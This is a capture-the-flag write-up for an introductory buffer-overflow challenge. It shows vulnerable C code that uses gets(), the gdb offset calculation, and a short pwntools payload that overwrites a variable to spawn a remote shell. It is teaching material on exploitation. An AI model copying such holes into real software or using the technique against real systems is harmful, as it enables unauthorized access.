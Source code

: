 # Intro 1

We are given the source code and the compiled binary.

main.c : 
```
#include <stdio.h>
#include <stdlib.h>


int main(){
    char buf[0x100];
    int overwrite_me;
    overwrite_me = 1234;
    puts("Welcome to PWN 101, smash my variable please.\n");
    gets(buf);
    if (overwrite_me == 0x1337){
        system("/bin/sh");
    }
    return 0;
}
```

checksec shows the following securities:
```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Okay so we have a 64 bit binary that is using "gets" to read input from the user.

Gets allows us to overflow the buffer, and in this case we want to overwrite "overwrite_me" with 0x1337. As they will run "/bin/sh" and give us a shell on the remote server.



Straight forward enough. Just have to find out the offset.

To do this I ran gdb on the file and sent a cyclic pattern of 300 to overflow the buffer.

![](pics/1.png)

We can see the above output from gdb when we send our pattern 

RBP has been loaded with "saac"

Running "cyclic -l saac" we know the offset the amount of data needed before we overwrite RBP is 272

![](pics/2.png)

If I disassemble main inside GDB as shown above you can see the CMP function which is checking if the "overwrite_me" variable is is equal to 0x1337. It also shows is that is at 'rbp-0x4'

272 - 4 = 268

So our payload will be 

268 junk data + 0x1337

This can be done a number of ways but to keep it simple for this writeup ive done it with pwntools

our payload will look like this:

```
OFFSET = 268
payload = b'A' * OFFSET
payload += p64(0x1337)

io.sendline(payload)

io.interactive()
```

Running this on the remote server we get the flag:
![](pics/3.png)
